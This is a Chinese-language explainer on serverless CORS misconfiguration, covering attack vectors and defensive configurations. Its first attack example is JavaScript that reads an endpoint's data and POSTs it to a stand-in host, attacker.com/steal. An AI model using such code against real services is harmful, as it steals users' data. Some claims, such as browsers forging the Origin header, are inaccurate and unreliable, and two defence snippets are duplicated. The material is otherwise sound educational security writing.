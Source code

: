 # 无服务器CORS滥用：技术分析与防御策略

## 1. 概述

随着无服务器架构（Serverless Architecture）的普及，基于云函数的应用开发变得越来越常见。然而，这种架构在带来便利的同时，也引入了新的安全风险，其中之一便是**无服务器CORS滥用**（Serverless CORS Misconfiguration）。本文将深入探讨这一安全问题的定义、原理、分类、技术细节，并提供相应的防御策略。

## 2. CORS 基础

### 2.1 什么是CORS？

跨域资源共享（Cross-Origin Resource Sharing, CORS）是一种浏览器机制，它允许网页从不同的域名（即跨域）请求资源。CORS通过HTTP头来定义哪些跨域请求是被允许的。

### 2.2 CORS 的工作原理

当浏览器发起跨域请求时，会先发送一个**预检请求**（Preflight Request），服务器通过响应头（如 `Access-Control-Allow-Origin`）来告知浏览器是否允许该请求。如果允许，浏览器才会发送实际的请求。

### 2.3 CORS 的安全意义

CORS 的主要目的是防止恶意网站通过跨域请求窃取用户数据。然而，如果配置不当，CORS 反而会成为攻击者的工具。

## 3. 无服务器架构中的CORS

### 3.1 无服务器架构简介

无服务器架构是一种云计算模型，开发者无需管理服务器，只需编写函数代码并部署到云平台上。常见的无服务器平台包括 AWS Lambda、Google Cloud Functions 和 Azure Functions。

### 3.2 无服务器架构中的CORS配置

在无服务器架构中，CORS 配置通常由云函数或API网关处理。开发者需要在函数代码或网关配置中设置 `Access-Control-Allow-Origin` 等CORS头。

### 3.3 无服务器CORS滥用的风险

由于无服务器架构的灵活性和动态性，CORS 配置往往容易被忽视或错误配置，从而导致安全漏洞。攻击者可以利用这些漏洞进行跨域攻击，窃取用户数据或执行恶意操作。

## 4. 无服务器CORS滥用的分类

### 4.1 宽松的CORS配置

最常见的CORS滥用是配置过于宽松，例如将 `Access-Control-Allow-Origin` 设置为 `*`，允许所有域名的跨域请求。这种配置虽然方便，但也为攻击者提供了可乘之机。

### 4.2 动态CORS配置

有些开发者会根据请求中的 `Origin` 头动态设置 `Access-Control-Allow-Origin`。然而，如果验证不严格，攻击者可以伪造 `Origin` 头，从而绕过CORS限制。

### 4.3 缺少预检请求处理

某些情况下，开发者可能忽略了预检请求的处理，导致浏览器无法正确判断是否允许跨域请求。这可能导致未授权的跨域请求被允许。

## 5. 技术细节与攻击向量

### 5.1 宽松CORS配置的攻击向量

假设一个无服务器函数配置了如下CORS头：

```http
Access-Control-Allow-Origin: *
```

攻击者可以创建一个恶意网站，通过AJAX请求该函数，窃取返回的数据。

```javascript
fetch('https://vulnerable-function.example.com/data')
  .then(response => response.json())
  .then(data => {
    // 将数据发送到攻击者的服务器
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

### 5.2 动态CORS配置的攻击向量

假设一个无服务器函数根据 `Origin` 头动态设置 `Access-Control-Allow-Origin`，但验证不严格：

```javascript
const origin = event.headers.origin;
if (origin.endsWith('.example.com')) {
  return {
    statusCode: 200,
    headers: {
      'Access-Control-Allow-Origin': origin
    },
    body: 'Data'
  };
}
```

攻击者可以伪造 `Origin` 头，例如 `https://attacker.example.com`，从而绕过CORS限制。

### 5.3 缺少预检请求处理的攻击向量

假设一个无服务器函数未正确处理预检请求，攻击者可以通过直接发送跨域请求来绕过CORS限制。

```javascript
fetch('https://vulnerable-function.example.com/data', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({ key: 'value' })
})
  .then(response => response.json())
  .then(data => {
    // 处理数据
  });
```

## 6. 防御策略与建议

### 6.1 严格限制 `Access-Control-Allow-Origin`

避免使用 `*`，而是明确指定允许的域名。例如：

```javascript
const allowedOrigins = ['https://trusted.example.com'];
const origin = event.headers.origin;
if (allowedOrigins.includes(origin)) {
  return {
    statusCode: 200,
    headers: {
      'Access-Control-Allow-Origin': origin
    },
    body: 'Data'
  };
}
```

### 6.2 验证 `Origin` 头

在处理动态CORS配置时，应严格验证 `Origin` 头，避免使用简单的字符串匹配或正则表达式。

```javascript
const allowedOrigins = ['https://trusted.example.com'];
const origin = event.headers.origin;
if (allowedOrigins.includes(origin)) {
  return {
    statusCode: 200,
    headers: {
      'Access-Control-Allow-Origin': origin
    },
    body: 'Data'
  };
}
```

### 6.3 正确处理预检请求

确保无服务器函数能够正确处理预检请求，并返回适当的CORS头。

```javascript
if (event.httpMethod === 'OPTIONS') {
  return {
    statusCode: 200,
    headers: {
      'Access-Control-Allow-Origin': 'https://trusted.example.com',
      'Access-Control-Allow-Methods': 'GET, POST',
      'Access-Control-Allow-Headers': 'Content-Type'
    },
    body: ''
  };
}
```

### 6.4 使用API网关的CORS配置

许多云平台提供了API网关的CORS配置功能，建议使用这些功能来统一管理CORS设置，减少代码中的安全风险。

### 6.5 定期审计与测试

定期对无服务器函数进行安全审计和渗透测试，确保CORS配置的正确性和安全性。

## 7. 总结

无服务器CORS滥用是一个容易被忽视但危害巨大的安全问题。通过理解其原理、分类和攻击向量，开发者可以采取有效的防御措施，保护应用免受跨域攻击的威胁。严格限制 `Access-Control-Allow-Origin`、验证 `Origin` 头、正确处理预检请求以及定期审计是防御无服务器CORS滥用的关键策略。

---

*文档生成时间: 2025-03-14 10:37:26*
